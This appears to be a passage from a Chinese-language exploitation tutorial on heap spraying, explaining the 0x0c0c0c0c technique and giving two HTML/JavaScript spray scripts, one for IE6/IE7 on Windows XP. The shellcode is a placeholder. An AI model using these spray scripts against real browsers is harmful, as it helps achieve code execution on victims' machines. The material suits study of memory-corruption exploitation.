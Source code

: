 假如将obj_ptr覆盖为0x0c0c0c0c，将0x0c0c0c0c地址内的内容填为x0cx0cx0cx0c，那么顺着这条调用链，最后还是会调用0x0c0c0c0c地址处的指令，而且:

```
004010A0  0C 0C   OR AL,0C
004010A2  0C 0C   OR AL,0C
```

计算需要多大的内存块才能喷到0x0c0c0c0c

```
0x0c0c0c0c = 202116108
202116108字节(b)=192.7529411兆字节(mb)
```

但由于分配的起始地址并不是从零开始，所以实际中并不需要那么大的内存，**还有一个要注意的点就是unescape返回的对象在用.length计算长度时返回的是实际长度的一半**

```javascript
> s = unescape("%u4142%u4344%u4546")
> s.length
3
```

一份堆喷射的脚本可能看起来像这样：

```html
<html>
<script>
    tag = unescape('%u4141%u4141');
    chunk = '';
    chunksize = 0x1000;
    nr_of_chunks = 200;
    for (counter = 0; counter < chunksize; counter++) { // 填充0x1000的NOP指令
        chunk += unescape('%u9090%u9090');
    }
    chunk = chunk.substring(0, chunksize - tag.length);
    testarray = new Array();
    for (counter = 0; counter < nr_of_chunks; counter++) { // 0x200个chunk
        testarray[counter] = tag + chunk;
    }
</script>
</html>
```

**XP下IE6和IE7的堆喷**

可以用IE Collection安装多个版本的IE，这里在XP SP3上安装了IE6和IE7用于调试。

```html
<html>
<script>
    var shellcode = unescape('%u4141%u4141');
    var bigblock = unescape('%u9090%u9090');
    var headsize = 20;
    var slackspace = headsize + shellcode.length;
    while (bigblock.length < slackspace) bigblock += bigblock;
    var fillblock = bigblock.substring(0, slackspace);
    var block = bigblock.substring(0, bigblock.length - slackspace);
    while (block.length + slackspace < 0x40000) block = block + block + fillblock;
    var memory = new Array();
    for (i = 0; i < 500; i++) {memory[i] = block + shellcode;}
</script>
</html>
```
